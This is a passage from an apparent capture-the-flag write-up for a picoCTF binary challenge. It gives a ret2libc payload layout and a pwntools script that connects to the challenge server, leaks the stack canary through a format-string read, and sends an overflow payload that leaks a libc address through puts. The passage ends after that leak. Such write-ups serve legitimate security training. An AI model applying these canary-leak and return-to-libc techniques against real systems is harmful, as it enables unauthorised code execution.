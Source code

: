 We prepare the final payload as the following

```
<address to system()> + <4-byte dummy input> + <address to /bin/sh>
```

> We can put anything into the 4-byte dummy input as we are not returning to the original program anymore.

## Solution

```python
import requests
from pwn import *
from time import sleep
context.terminal = ['tmux', 'splitw', '-h']
elf = ELF('./vuln')

gdbscript = f"""break *0x080487fe"""
# io = gdb.debug('./vuln', gdbscript=gdbscript)
# io = process('./vuln')
io = remote('jupiter.challenges.picoctf.org', 13775)
sleep(1)
io.clean()

ans = -3727
# with log.progress('Guessing answer') as p:
#   for i in range(-4096, 4096):
#     p.status(i)
#     io.sendline(str(i).encode('ascii'))
#     res = io.recvline()
#     sleep(1)
#     io.clean()
#     print(i, res)
#     if b'You win' in res:
#       ans = i
#       break
log.success(f'The answer is {ans}')
ans = str(ans).encode('ascii')
io.sendline(ans)
log.info('Leaking stack canary')
leak_canary = b'%135$p'
sleep(1)
io.clean()
io.sendline(leak_canary)
canary = io.recvline(keepends=False).decode('ascii').split(':')[1].strip()
log.success(f'Stack canary: {canary}')
canary = p32(int(canary, 16))

DUMMY_LEN = 512
log.info(f'DUMMY_LEN: {DUMMY_LEN}')

log.info('Leaking libc base')
log.info(f'win is at {hex(elf.sym["win"])}')
log.info(f'puts@plt is at {hex(elf.plt["puts"])}')
log.info(f'puts@got.plt is at {hex(elf.got["puts"])}')

payload  = b'A' * DUMMY_LEN + canary + b'B' * 12
payload += p32(elf.plt['puts']) + p32(elf.sym['win']) + p32(elf.got['puts'])
io.sendline(ans)
sleep(1)
io.clean()
io.sendline(payload)
sleep(1)
io.recvline()
```